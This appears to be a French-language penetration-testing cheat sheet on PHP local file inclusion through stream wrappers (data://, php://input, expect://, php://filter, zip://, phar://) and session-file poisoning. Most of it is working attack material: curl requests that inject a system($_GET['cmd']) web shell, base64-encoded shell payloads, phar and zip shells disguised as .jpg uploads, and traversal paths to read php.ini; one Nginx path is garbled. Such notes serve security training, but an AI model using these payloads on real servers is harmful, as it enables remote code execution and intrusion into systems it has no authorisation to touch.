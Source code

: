 # Wrappers
### data://
Peut  exécuter du code en texte brute ou encoder (base64, ...)
Nécessite allow_url_include dans la config PHP
config Apache:
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
config Nginx:
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2//etc/php/X.Y/fpm/php.ini
			
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
### input://
comme data mais reçois en POST
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
### expect://	
Pas installé par défaut, mais plusieurs applications s'en servent. Rechercher dans le fichier de config comme data pour “expect” et savoir si il est installé
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
### php://filter
Applique des filtres sur la sortie. Lire des fichiers. Utiliser fuzzeur pour trouver fichiers ou lire code pour trouver des  inclusions
```
php://filter/convert.base64-encode
```
encode en base 64 ce qui permet d'afficher un fichier sans l'exécuter
php://filter/read=convert.base64-encode/resource=admin.php
			
### zip://
Pas actif par défaut
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
phar://
créer un script PHP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

compiler en phar
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Téléverser puis référencer le shell.txt	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# PHP Session
/var/lib/php/sessions/sess\_\[cookie_PHPSESSID]
C:\Windows\Temp\sess\_\[cookie_PHPSESSID]

Ajouter du code d'une quelquonque façon dedans puis

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~